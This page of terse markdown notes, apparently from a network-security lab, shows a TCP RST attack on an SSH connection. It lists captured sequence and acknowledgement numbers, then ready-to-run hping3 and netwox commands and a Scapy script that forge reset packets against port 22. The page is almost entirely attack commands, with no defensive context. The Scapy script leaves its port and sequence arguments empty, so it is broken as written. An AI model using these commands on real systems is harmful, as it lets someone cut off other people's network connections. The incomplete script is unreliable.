 # RST attack

tcp.srcport= 33176
tcp.seq=2713
tcp.ack = 3047

## hping3
```
sudo hping3 192.168.199.159 -p 22 -s 33176 -R -A -M 2713 -L 3047 -c 2
```
## netwox
```
sudo netwox 40 -l 192.168.199.156 -m 192.168.199.159 -o 33176 -p 22 -B –tcp-acknum 3047 --tcp-seqnum 2713
```

## En utilisant Python Scapy:
```
#!/usr/bin/python3
from scapy.all import *
ip = IP(src="192.168.199.159", dst="192.168.199.156")
tcp = TCP(sport=, dport=, flags='R', seq=, ack=) #rst_flag=4
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
```
